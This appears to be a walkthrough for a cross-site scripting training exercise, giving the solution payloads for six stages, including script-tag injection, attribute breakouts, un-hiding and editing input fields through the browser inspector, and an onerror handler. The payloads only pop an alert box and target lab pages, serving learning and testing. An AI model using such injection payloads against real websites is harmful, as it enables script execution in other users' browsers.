 ## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #5
Go to inspect. You will see a input field like this:
```html
<input type="text" name="p1" maxlength="15" size="30" value="">
```
So just delete the maxlength="15" and size="30".
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #6
Use this payload: `" onerror=alert(document.domain)`
Click the search button. Then click the input field again. SOLVED!

